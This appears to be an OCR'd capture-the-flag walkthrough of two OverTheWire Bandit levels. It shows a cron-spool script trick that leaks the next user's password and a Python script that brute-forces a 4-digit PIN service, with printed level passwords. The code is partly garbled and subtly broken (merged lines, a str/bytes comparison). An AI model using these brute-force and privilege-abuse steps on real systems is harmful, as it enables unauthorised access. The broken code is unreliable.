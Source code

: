 andit23@bandit:/tmp/secttp$ vim sectp.sh
bandit23@bandit:/tmp/secttp$ touch password
bandit23@bandit:/tmp/secttp$ chmod 666 password
bandit23@bandit:/tmp/secttp$ ls -al password
-rw-rw-rw- 1 bandit23 bandit23 33 Jun 29 07:42 password
bandit23@bandit:/tmp/secttp$ cp sectp.sh /var/spool/bandit24/

bandit23@bandit:/tmp/secttp$ ls -al password
-rw-rw-rw- 1 bandit23 bandit23 33 Jun 29 07:42 password
bandit23@bandit:/tmp/secttp$ cat password
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 2647

24. 
nedded to do a brute force attack

nc localhost 30002 

followed by previous password and 4 digit pin

so the python program we made:
#!/usr/bin/env python3
# coding: utf-8import sys
import socketpincode = 0
password = "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ"try:
    # Connect to server
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("127.0.0.1", 30002))
    
    # Print welcome message
    welcome_msg = s.recv(2048)
    print(welcome_msg)    # Try brute-forcing
    while pincode < 10000:
        pincode_string = str(pincode).zfill(4)
        message=password+" "+pincode_string+"\n"        # Send message
        s.sendall(message.encode())
        receive_msg = s.recv(1024)        # Check result
        if "Wrong" in receive_msg:
            print("Wrong PINCODE: %s" % pincode_string)
        else:
            print(receive_msg)
            break
        pincode += 1
finally:
    sys.exit(1)

Wrong PINCODE: 2584
Wrong PINCODE: 2585
Wrong PINCODE: 2586
Wrong PINCODE: 2587
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

